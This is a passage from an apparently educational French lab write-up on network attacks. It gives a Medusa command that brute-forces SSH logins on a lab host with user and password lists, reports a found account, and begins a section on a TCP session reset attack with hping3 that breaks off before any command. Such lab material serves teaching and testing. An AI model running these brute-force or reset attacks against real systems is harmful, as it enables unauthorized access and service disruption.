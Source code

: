 Alors, nous pouvons lancer la commande Medusa avec la syntaxe suivante :

```
#-h pour l'adresse cible, -U pour appeler le fichier txt users, -P pour appeler le fichier txt des password  
 et -M pour le module. -n pourrait être utilisé ici pour spécifier le port cible (qui pourrait être 2222...)

medusa -h 10.10.8.50 -U user.txt -P password.txt -M ssh
```  

Nous obtenons la sortie suivante :

![medusa1](/S19/ressource/medusa/medusa1.jpg)

Nous observons le résultat positif sur la troisième ligne plus haut : ``ACCOUNT FOUND...``
L'attaque par Force Brute a fonctionné.

## Attaque de Réinitialisation de Session TCP | Serveur Linux Debian ou Windows (avec services TCP actifs) | hping3

Hping3 est un outil de ligne de commande open-source utilisé pour la génération et l'analyse de paquets TCP/IP. Il est souvent utilisé pour les tests de sécurité des réseaux, le dépannage, et l'enseignement des concepts de protocoles réseau. Hping3 est capable de créer des paquets TCP, UDP, ICMP et RAW-IP, et de manipuler presque tous les champs de ces paquets, ce qui en fait un outil très flexible et puissant.

Nous utilisons notre machine Kali, sur laquelle est présent **hping3**. Nous ciblons notre machine Lucy pour l'attaque.

